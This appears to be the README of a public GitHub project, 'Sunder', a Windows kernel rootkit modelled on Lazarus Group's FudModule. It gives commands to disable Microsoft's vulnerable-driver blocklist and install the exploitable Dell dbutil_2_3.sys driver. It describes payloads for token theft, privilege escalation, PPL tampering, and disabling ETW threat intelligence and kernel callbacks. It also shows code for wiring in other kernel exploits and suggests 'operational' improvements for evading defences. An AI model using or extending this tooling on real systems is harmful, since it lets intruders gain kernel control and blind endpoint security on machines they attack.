

# Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference [this version of Sunder](sunder-appid_exploit) for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit.

Sunder's vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following commands to allow blocked drivers *(bcdedit command not required on Windows 11)*:
```
bcdedit /debug on	
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).



Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run. Enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;				//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;				//	Cast this to _writeqword in rootk()
	DWORD myProcessId;				// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;				// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;			// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;			// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc			= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;	// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);			// Call rootkit functionality for post-exploitation
```

## References
Thanks to [Nero22k's blog](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/) for mentioning the ExpProfileDelete function as a useful gadget for arbitrary decrements (utilized in appid.sys exploit).

